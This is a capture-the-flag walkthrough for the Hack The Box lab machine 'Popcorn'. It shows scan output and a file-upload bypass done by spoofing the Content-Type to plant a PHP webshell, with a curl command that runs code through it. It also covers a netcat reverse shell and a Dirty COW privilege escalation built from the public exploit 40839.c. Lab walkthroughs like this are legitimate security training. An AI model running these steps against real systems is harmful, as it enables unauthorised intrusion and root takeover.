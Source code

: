 # Popcorn - Windows, easy (10.10.10.6)

### Enumeration

Nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Gobuster scan:
```
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47032]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]     
```

Nikto scan:
```
...
+ Apache/2.2.12 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Retrieved x-powered-by header: PHP/5.2.10-2ubuntu6.10
+ /test: Output from the phpinfo() function was found.
+ OSVDB-112004: /test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
...
```

I was trying a shellshock attack, since at page /test we can see a script in cgi-bin called test.php, but it does not work.

### Obtaining user www-data
Checking page /torrent we can see that there is a login form but we have also the possibility to register ourselves with a new account.
At http://10.10.10.6/torrent/torrents.php?mode=upload we can upload an .iso file, so I downlaoded a kali linux image and tried to upload it.
After a while, the website redirect us to the page that shows details about our upload.
Here we can edit the torrent and upload some screenshots.
I tried to upload a .php webshell but the websites tell us that this is an invalid file.
Sending the request to the repeater, we can play a bit with it.
```
-----------------------------39809701351887264379441595880
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: application/x-php
```

Changing the extension from .php to .png does not change the situation, but changin the **Content-Type** to **image/png** allows us to upload it even if this is a php file, and this is the answer we receive:
```
Upload: webshell.php
Type: image/png
Size: 0.0390625 Kb
Upload Completed.
Please refresh to see the new screenshot.
```

Now we need to find the location of these files.
We a gobuster scan we identify page **/torrent/upload/**, and we can see our php file.
```
kali@kali:~$ curl http://10.10.10.6/torrent/upload/193ea16e3be7462bd6f3b1f6a6e0cc0a860dd828.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works!

So now it's time to get a shell.

Just upload a php reverse shell file and then, using nc, wait to the connection.
Now we can get the first flag!

### From www-data to Root
With `uname -r` we can notice that the kernel version is 2.6.31 which is < v 3.9, so we can perform a **Dirty Cow Attack** (CVE-2016-5195).
Using searchsploit we can search for dirty cow. We can utilize the following script: `searchsploit -m exploits/linux/local/40839.c`.
Get a copy of this file on the target using a python server and wget and then compile it `gcc -pthread 40839.c -o dirty -lcrypt` and change permissions `chmod +x dirty`.
Execute the binary, set a new password and then with `su firefart` you'll get a new shell:
```
firefart@popcorn:/dev/shm# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Now we can get the root flag!

